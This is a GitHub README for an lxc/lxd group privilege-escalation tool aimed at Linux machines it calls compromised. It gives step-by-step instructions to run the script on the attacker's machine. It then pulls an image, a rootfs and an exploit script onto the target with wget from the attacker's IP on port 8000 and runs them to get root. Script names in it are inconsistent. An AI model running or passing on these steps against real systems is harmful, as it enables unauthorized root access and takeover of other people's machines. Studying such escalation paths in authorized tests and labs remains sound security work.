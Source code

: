 # lxc-Privilege-Escalation

## Description

lxc Privilage Escalation Is An Automation Tool To Exploit The Linux xlc Group Misconfiguration Which Leads To Get High Previlege (root) In The Compromised Server Or Machine

## Requitements

<ul>
<li>python3 |-> To Start The Host Server With It</li>
<li>Linux Debian Based |-> Because It Written With Bash :) & The apt For Debian Based Distros Like:</li>
</ul>
<ol>
<li>Debain</li>
<li>Ubuntu</li>
<li>Kali</li>
<li>Parrot OS</li>
<li>Back Box (Ubuntu Based)</li>
</ol>

## Wiki
- Clone The Repository:

`git clone https://github.com/Cyber-Guy1/lxc-Privilege-Escalation.git`

- Or Download It As A zip File

- Get Into The Cloned Repository:

`cd lxc-Privilege-Escalation`

- Give It The Right Permission:

`chmod +x xlc-exploit.sh`

- Run It:

`./exploit.sh`

- After The Tool Finished It's Tasks Now Go To The Compromised Machine

- Upload The Files Which Will Be The Exploit For Us In The Compromised Machine By Doing:

 `wget http://[Your IP]:8000/lxd.tar.xz` <br><br>[-] For Example: `wget http://192.168.1.5:8000/lxd.tar.xz`<br><br><br>
 `wget http://[Your IP]:8000/rootfs.squashfs` <br><br>[-] For Example: `wget http://192.168.1.5:8000/rootfs.squashfs`<br><br><br>

- Then Upload The Exploitation Script:

`wget http://[Your IP]:8000/exploit.sh` [-] For Example: `wget http://192.168.1.5:8000/exploit.sh`

- Give It The Right Permission:

`chmod +x exploit.sh`

- Finally Run It:

`./exploit.sh`

## Welcome Root ;)
